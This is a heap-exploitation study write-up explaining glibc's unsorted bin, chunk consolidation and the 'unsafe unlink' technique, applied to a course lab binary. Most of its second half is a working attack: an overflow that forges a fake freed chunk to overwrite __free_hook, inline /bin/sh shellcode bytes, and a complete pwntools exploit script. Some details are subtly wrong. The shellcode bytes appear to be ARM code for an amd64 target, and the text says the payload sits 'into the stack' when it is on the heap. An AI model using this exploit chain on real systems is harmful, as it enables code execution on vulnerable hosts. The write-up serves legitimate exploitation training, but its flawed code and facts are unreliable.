








# Heap Journey - Unsafe Unlink

## Unsorted Bin

The unsorted bin is a unique bin present into each arena which consists into a double-linked circular list i.e. each free chunk in the bin has a fw_pointer and a bk_pointer respectively to the next and previous chunk. The unsorted bin, being only one, holds chunks of any size of those not being valid for fastbins (or tcache).

Unlike fastbins, where chunks are allocated from the head, from unsorted bins, they're allocated from the tail.

- **Chunk consolidation**: chunks that are too large for fastbins (and tcache), said *normal*, and adjacent to the top chunk are 'consolidated' into the top chunk, i.e. merged to the top chunk, when freed. The same happens for two or more adjacent *normal* chunks, which get merged into a new single chunk which size is the sum of the merged ones.

The behavior of the memory allocator relative to the unsorted bin is described by the following scenario: a chunk **A** and a chunk **B** of size 0x90 are allocated into the heap. 
- The chunk **B** is freed; the freed chunk is ***consolidated*** into the top chunk (it 'disappears' from the heap) since it's adjacent to it. 



Next, a new chunk **C** of size 0x90 is allocated followed by a 0x20 **D** chunk. 

- The **A** chunk is freed and no consolidation happens; instead, the *bk_pointer* and *fw_pointer* of the **A** freed chunk are updated together with the **PREV_INUSE** bit in the **C** **CHUNK_SIZE** header field (set to 0x90 instead 0x91) and the **C** **PREV_CHUNK_SIZE** header field (set as well to 0x90).




Then, the **C** chunk is freed.

- The **A** chunk gets consolidated into the **C** chunk and a new free chunk which size corresponds to the sum of the two free chunk size is created. 
- At the same time, the **D** chunk **PREV_INUSE** bit and **PREV_CHUNK_SIZE** are updated respectively to 0x20 (instead of 0x21) and 0x120 (0x90 + 0x90). 
- The unsorted bin still points to the A chunk address, but now it has changed to a new chunk\*.



In this scenario, the unsorted bin has only one element so it appears that nothing relevant happened. Actually, if the **C** chunks was in the unsorted bin, it would have been removed; the ptmalloc implementation checks if there are valid candidates for consolidation by checking the *PREV_INUSE* bit, then looks backward using the *PREV_CHUNK_SIZE* and forward using the *CHUNK_SIZE*. 

- When a consolidation takes place, it has to search and remove, i.e, **unlink** the chunks involved in the consolidation process from the unsorted bin (actually, from every free chunks list).

Being the unsorted bin a double-linked circular list, the **unlinking** process of an Item(i) consists into setting the Item(i-1) **fw_pointer** to that of the Item(i) as well as the Item(i+1) **bk_pointer** to that of the Item(i). 

- P\->fd\->bk = P\->bk
- P\->bk\->fd = P\->fd

Here follows an example of unlinking for a three-item double-linked list.



## Unsafe Unlink Technique

Originally used in 2000's to pwn the Netscape browser (nowadays isn't generally exploitable for recent GLIBC versions and CPU implementations, but it's still useful to know it), this technique takes advantage of the unlinking and consolidation processes. When the attacker has the ability to modify the PREV_INUSE bit of a chunk, it can trick the allocator to perform a malicious consolidation which can result into a command execution or a arbitrary read/write.

When forcingly unsetting the PREV_INUSE bit for a **B** chunk, the ptmalloc will consider its previous chunk **A** as free, even though it is not. If a free() is requested for the **B** chunk, the mallocator will check if its PREV_INUSE is set; if not, it will trigger a consolidation for **A**.

- By forging the **A** chunk as a fake freed chunk, with arbitraries fw_pointer and bk_pointer, it's possibile to abuse the forced consolidation to perform a **reflected write/read**: the fw_pointer will corresponds to the target memory area (where to write) and the bk_pointer will be the address to be written into the target. This is possibile due the unlinking mechanism where fw_pointer and bk_pointer are updated for next and previous items of the one to be removed.

Targeting, for example, the \_\_free\_hook, a malicious **A** chunk would have:

- fw_pointer = &\_\_free\_hook - 0x18
- bk_pointer = address of shellcode/gadget

Some points are to be made out:

- A 0x18 is subtracted from the &\_\_free\_hook since, thinking of it as a real chunk, its bk_pointer position would be at *header_size* + *fw_pointer size* = 0x10 + 0x8 offset; this allows to write the shellcode/gadget address to the correct position.
- It's not possible to use directly libc system() address as bk_pointer since, due to consolidation, the ptmalloc will try to update an hypotetical fw_pointer (&system() + 0x10) attempting to write into a read-only memory area. **When performing the reflected write, both the addressess pointed must belong to a writable memory area**
- When NX is disabled (in 2000's didn't even exist), it's possible run shellcode written in any memory area, so, in this case, the attacker could load the shellcode into the heap itself.
- This technique is the "backwad" variation of this attack since it uses the consolidation of a (fake) free chunk located **before** the freed chunk. The "forward" variation abuses a (fake) free chunk following the one to be freed.

From Udemy course "Linux Heap Exploitation - Part 1", the binary *unsafe_unlik* is vulnerable to this heap exploitation technique.

The checksec tool is executed:

```
> checksec unsafe_unlink
  Arch:     amd64-64-little
  RELRO:    Full RELRO
  Stack:    Canary found
  NX:       NX disabled
  PIE:      PIE enabled
  RWX:      Has RWX segments
  RUNPATH:  b'../.glibc/glibc_2.23_unsafe-unlink'
```

Running the binary:

```
===============  |   HeapLAB   |  Unsafe Unlink ===============

puts() @ 0x7f504f4675a0
heap @ 0x561ab1955000

1) malloc 0/2
2) edit
3) free
4) quit
>
```

Two chunks of size 0x88, greater than fastbin/tcache typical sizes, are allocated:

```
> 1
size: 0x88
...
> 1
size: 0x88
```


Then, the first chunk content is set as A * 136 (size of chunk) + 4:

```
> 2
index: 0
data: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Analyzing the heap, it emerges that no boundary checks are in place and the first chunk data overflows into the second chunk header:



It's possible to weaponize this overflow by performing the **unsafe unlink** attack. Moreover libc and heap address are leaked; this allows to target the \_\_free\_hook to perform a command execution by loading shellcode directly into the heap (since we're faking to be in 2000s when there wasn't the NX in place).

The first step is to forge the first chunk as a fake freed chunk which **fw_pointer** points to the \_\_free\_hook and the bk_pointer points to the shellcode stored into chunk itself.

`
header_size = 0x10
`

`
pointer_size = 0x8
`

`
fw_pointer = libc.sym.__free_hook - (header_size + pointer_size)
`

`
bk_pointer = heap_leaked_addr + 0x20
`

- Note: the 0x20 added to the heap_leaked_addr (heap base address) corresponds to 0x10 from the header size plus 0x10 from the fw_pointer and bk_pointer themselves.

The shellcode payload is stored into the chunk itself; due the unlinking process triggered by the forced chunk consolidation, the payload would be corrupted in his 3rd quadword, i.e., malloc will write the \_\_free\_hook address where the fw_pointer is supposed to be. A nop sled padding is used to bypass this problem.

Moreover, to perform the overflow, some junk data is addedd to the fake pointers and shellcode.

`
padding = b"\x90" * (header_size + (pointer_size * 2))
`

`
shellcode = padding + b"\x01\x60\x8f\xe2\x16\xff\x2f\xe1\x40\x40\x78\x44\x0c\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x01\x27\x01\xdf\x2f\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
`

`
chunk_A_data = p64(fw_pointer) + p64(bk_pointer) + shellcode
`

`
chunk_A_junk = b"\x00" * (0x88 - len(chunk_A_data) - 0x8)
`


The overflow bug is used to override the PREV_CHUNK_SIZE and the PREV_INUSE bit; this is done when setting the chunk data:

`
fake_prev_size_field = fake_prev_inuse_bit = p64(0x90)
`

`
edit(b"0", chunk_A_data + chunk_A_junk + fake_prev_size_field + fake_prev_inuse_bit)
`

Analyzing the heap:




- The second chunks has now the PREV_INUSE bit unset and the PREV_CHUNK_SIZE set to 0x90; the malloc implementation is tricked to believe that the first chunk is freed.

A free() for the second chunk will start the consolidation process which will trigger the unlinking process. As result, the \_\_free\_hook will point to the shellcode into the stack.



- Note the circular reference

When a new free() is requested, the \_\_free\_hook will be triggered and then the shellcode would be executed since there no NX protection.

Sadly, the 2000's are gone and, even though the NX is diabled, the heap memory map has no execution permissions so the shellcode won't work (SEGFAULT).

```
> gef info proc map
...
0x555555603000    0x555555624000    0x21000    0x0    rw-p    [heap]
```


Following the complete pwntools solution: 

```
from pwn import *

elf = context.binary = ELF("./unsafe_unlink")
libc = ELF("../.glibc/glibc_2.23_unsafe-unlink/libc.so.6")

p = gdb.debug("./unsafe_unlink")
#p = process("./unsafe_unlink")

# Use leaked libc puts() address and its offset to determine libc base address
p.recvuntil(b"puts() @ ")
puts_leaked_addr = int(p.recvline().strip(), 16)
libc_base_addr = puts_leaked_addr - libc.sym.puts
libc.address = libc_base_addr

p.recvuntil(b"heap @ ")
heap_leaked_addr = int(p.recvline().strip(), 16)


def malloc(size):
    p.send(b"1")
    p.sendafter(b"size: ", size)
    p.recvuntil(b"> ")

def edit(idx, data):
    p.send(b"2")
    p.sendafter(b"index: ", idx)
    p.sendafter(b"data: ", data)
    p.recvuntil(b"> ")

def free(index):
    p.send(b"3")
    p.sendafter(b"index:", index)
    p.recvuntil(b"> ")

print("Allocating Chunks")
malloc(f"{0x88}".encode()) 
malloc(f"{0x88}".encode())


print("Forge fake freed chunk")
header_size = 0x10
pointer_size = 0x8

fw_pointer = libc.sym.__free_hook - (header_size + pointer_size)
bk_pointer = heap_leaked_addr + 0x20

print(f"Forward Pointer : 0x{fw_pointer:02x}")
print(f"Backward Pointer : 0x{bk_pointer:02x}")

padding = b"\x90" * (header_size + (pointer_size * 2))
shellcode = padding + b"\x01\x60\x8f\xe2\x16\xff\x2f\xe1\x40\x40\x78\x44\x0c\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x01\x27\x01\xdf\x2f\x2f\x62\x69\x6e\x2f\x2f\x73\x68"


chunk_A_data = p64(fw_pointer) + p64(bk_pointer) + shellcode
chunk_A_junk = b"\x00" * (0x88 - len(chunk_A_data) - 0x8) 

fake_prev_size_field = fake_prev_inuse_bit = p64(0x90)

print("Overlow to chunk B header")
edit(b"0", chunk_A_data + chunk_A_junk + fake_prev_size_field + fake_prev_inuse_bit)

print("Force chunk A consolidation by freeing B")
free(b"1")

print("Trigger free hook by freeing the chunk A")
free(b"0")

p.interactive()
```
